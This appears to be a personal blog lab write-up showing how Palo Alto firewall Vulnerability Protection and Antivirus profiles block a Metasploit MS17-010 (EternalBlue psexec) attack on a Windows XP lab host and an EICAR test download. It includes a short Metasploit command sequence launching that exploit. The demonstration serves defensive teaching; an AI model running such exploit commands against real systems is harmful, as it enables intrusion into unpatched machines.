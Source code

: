 ```yaml
---
title: Palo Alto Security Profiles
date: 2025-07-04 20:30:00 +0700
categories: [Security, Palo Alto]
tags: [Palo Alto]
---
```


Palo Alto Security Profiles are a set of threat prevention features that inspect allowed traffic for malicious activity. They include profiles like Antivirus, Anti-Spyware, Vulnerability Protection, URL Filtering, File Blocking, WildFire Analysis, and DNS Security—each working to detect and block threats such as malware, exploits, and command-and-control communications even after access is granted by the firewall policy.

<br>

## Vulnerability Protection

> **Vulnerability Protection** profile protects against known software vulnerabilities by inspecting traffic for exploit signatures and protocol anomalies. It uses regularly updated threat signatures to block or alert on attempts to exploit system and application weaknesses.

Here we have a Palo Alto Firewall with no security profiles enabled

![x](/static/2025-07-04-palo-ips/01.png)

<br>

We'll launch an attack froom Kali Linux on the Outside Network into a Windows XP host on the Inside using Metasploit

```
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.51.0.23
set LHOST 172.17.1.24
exploit
```

![x](/static/2025-07-04-palo-ips/02.png)

<br>

This exploit leverages vulnerability on Windows XP's SMB protocol, and without any Vulnerability Protection we can easily hack the target box

![x](/static/2025-07-04-palo-ips/03.png)

<br>

And looking at the traffic logs, the exploit went through the firewall with no detection at all

![x](/static/2025-07-04-palo-ips/04.png)

<br>

This exploit is documented in 'CVE-2017-0143' and is actually already in the Palo's IPS signature, all we need to do next is enable it.

![x](/static/2025-07-04-palo-ips/03a.png)

<br>

To enable Vulnerability Protection, we need to download latest Apps + Threats Signature from Palo Alto's Portal

![x](/static/2025-07-04-palo-ips/05.png)

<br>

Then upload and install the package into the firewall

![x](/static/2025-07-04-palo-ips/06.png)

<br>

Next we need to enable the Vulnerability Protection Profile, for simplicity we will use the predefined 'strict' profile, which already covers the CVE that we wanted to protect against

![x](/static/2025-07-04-palo-ips/07.png)

<br>

Finally just enable the Profile in the Security Policy

![x](/static/2025-07-04-palo-ips/08.png)

<br>

Now if we launch the attack again, we will get error Connection Reset

![x](/static/2025-07-04-palo-ips/09.png)

<br>

On the Threats Logs, we can see the exploit being detected and blocked by the firewall, completely preventing the attack from taking place

![x](/static/2025-07-04-palo-ips/10.png)

![x](/static/2025-07-04-palo-ips/11.png)

<br>

## Antivirus

> **Antivirus** security profile inspects traffic for known malware—such as viruses, worms, and trojans—by scanning files and content in protocols like HTTP, SMTP, FTP, and SMB. It uses signature-based detection and automatically blocks or logs infected content to prevent malware from entering or spreading within the network.

To simulate a malware download event, we will host an EICAR malware test file on the port 80 on the outside network

![x](/static/2025-07-04-palo-ips/12.png)

<br>

On the client side inside the network, without any Anti Virus protection we can freely access & download this malware

![x](/static/2025-07-04-palo-ips/12a.png)

<br>

Now lets enable Anti Virus, we will use the default profile because it already covers the protocols that we want to test

![x](/static/2025-07-04-palo-ips/13.png)

<br>

Then just enable it on the Security Profile

![x](/static/2025-07-04-palo-ips/14.png)

<br>

Now if we try to download the malware again, we will get a connetion reset preventing it to take place

![x](/static/2025-07-04-palo-ips/15.png)

<br>

On the Threats Logs, the malware is detected as a type of 'virus' and rightfully blocked from traversing into the inside network

![x](/static/2025-07-04-palo-ips/16.png)

![x](/static/2025-07-04-palo-ips/17.png)

<br>









